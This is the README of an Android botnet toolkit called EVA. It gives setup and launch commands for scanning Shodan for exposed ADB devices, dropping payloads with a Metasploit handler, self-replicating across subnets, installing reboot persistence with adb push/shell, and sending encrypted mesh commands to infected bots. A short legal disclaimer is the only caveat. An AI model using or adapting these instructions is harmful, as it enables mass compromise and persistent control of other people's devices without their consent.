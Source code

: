 # EVA ADB Botnet  

**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Kali Linux system using your GitHub SSH key:

### 1. Clone the private repository using SSH

```bash
git clone git@github.com:ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
```

>  If this doesn't work, make sure you’ve:
> - [ ] Added your SSH key to GitHub under Settings → SSH and GPG keys  
> - [ ] Tested the connection with: `ssh -T git@github.com` 

Now install dependencies:

```bash
sudo apt update && sudo apt install -y android-tools-adb metasploit-framework android-tools-adb python3-pip
pip3 install pycryptodome requests
mkdir -p bots
```

Then download and install `ngrok`:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```
##optional adb install if youre having issues with the above adb install: 
Use Google’s ADB installer
Manual method (safe + universal):

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:
```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```




You should now have:
- All EVA scripts in this folder (`Eva_adb_botnet/`)
- A `bots/` directory for bot state files
- An executable `ngrok` in the same folder

---

##  One-Time Setup (Before Launch)

### 1. Set your Shodan API Key  
Edit `adb_reaper.py` and replace this line with your actual key:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

### 2. Set Payload Path  
In `adb_dropper.py`, make sure this line points to either your APK or `jeangrey_android.py`:

```python
ADB_PAYLOAD = "/root/jeangrey_android.py"
```

### 3. Set AES Encryption Key  
In `jeangrey_crypto.py`, make sure this is a strong 16-byte key:

```python
SECRET_KEY = b'Sixteen byte key'  # Change this before deployment
```

---

##  Full Botnet Launch

From inside the EVA directory:

```bash
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open Android Debug Bridge (ADB) targets
- Drop the payload to each ADB-enabled device
- Start the Metasploit handler in the background
- Deploy `jeangrey_android.py` to infected targets
- Start mesh communication (UDP AES-encrypted)
- Activate replication and persistence features
- Launch the AI trigger engine
- Broadcast EVA Core’s presence across the mesh

---

## 📺 Monitor Bots (Dashboard)

To watch all active bots:

```bash
python3 eva_dashboard.py
```

This will:
- Read each bot's `jeangrey_state.json` inside `bots/`
- Show ID, IP, tags, and last seen timestamp
- Auto-refresh every 3 seconds

---

##  Send Mesh Commands (EVA Core)

```bash
python3 eva_core.py
```

This will:
- Broadcast EVA presence to all bots
- Allow you to send AES-encrypted commands to selected bot IPs
- Schedule execution after a timed delay

Supported commands:
- `scan` – make the bot scan for nearby ADB devices
- `drop` – redeploy the payload
- `report` – return full bot state
- `shutdown` – stop bot process

---

##  Auto-Response Engine (Bot Intelligence)

```bash
python3 eva_ai_trigger.py
```

This makes bots:
- Listen 24/7 for AES mesh commands
- React immediately and autonomously
- Execute mesh-sent tasks like scanning, reporting, or replicating

---

##  Self-Replication + Persistence

Bots will:
- Use `jeangrey_replication.py` to infect subnet ADB targets
- Write `bots/bot_<ip>/jeangrey_state.json` on first run
- Update `last_seen` every 60 seconds

To manually ensure reboot persistence:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This appends a startup line to `~/.bashrc` on the infected Android.

---

##  Bot Management

To rename, retag, or kill bots manually:

```bash
python3 state_editor.py
```

This opens a terminal menu to:
- Rename bot IDs
- Add/remove tags
- View bot JSON
- Permanently delete (💀) rogue nodes

---

## 🧱 Directory Structure (After Setup)

```
Eva_adb_botnet/
├── EVA_launcher.py
├── eva_core.py
├── eva_ai_trigger.py
├── eva_dashboard.py
├── jeangrey_android.py
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_persist.sh
├── adb_reaper.py
├── adb_dropper.py
├── metasploit_launcher.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    ├── bot_<ip>/
    │   └── jeangrey_state.json
```

---

## Legal & Ethical Notice

EVA is for:
- Controlled environments only
- that you have permission to test on

**Never deploy EVA on public networks or without permission.**  
Misuse may be illegal.

---

## 🧠 Vision

EVA is not just a botnet — it's a **mesh consciousness**.  
She replicates. She listens. She obeys. 

